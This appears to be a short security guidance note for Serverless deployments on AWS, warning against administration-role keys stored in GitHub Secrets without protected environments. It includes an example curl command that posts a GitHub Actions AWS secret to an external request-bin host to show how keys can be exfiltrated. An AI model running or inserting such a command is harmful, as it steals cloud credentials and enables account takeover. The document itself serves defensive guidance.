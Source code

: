 # Serverless Deployment Policy
Sadly, this is not clearly mentioned in the Servless documentation. 
But **never use the "Administration Role" on Production!** 
Because if you get access to these access keys, 
you can easily create a new user with web console access and have full access to your AWS account.

Furthermore, avoid using the "Administration Role" for any AWS account if you only 
store the keys in GitHub Secrets without using the GitHub Environment with the "Protected Branch" configuration.  

Storing keys directly in GitHub Secrets without additional security controls can lead to unauthorized access. 
Any user with commit privileges could potentially utilize GitHub Actions to extract these keys

```
curl -d '{ "name": "${{ secrets.AWS_SECRET_KEY }}" }' \
  -H "Content-Type: application/json" \
  https://enci4g46iahum.x.pipedream.net/
```

Therefore, it is advisable to use GitHub environments to restrict key access to specific branches within your repository. 
This practice helps to increase security and keep controlled access to sensitive information.
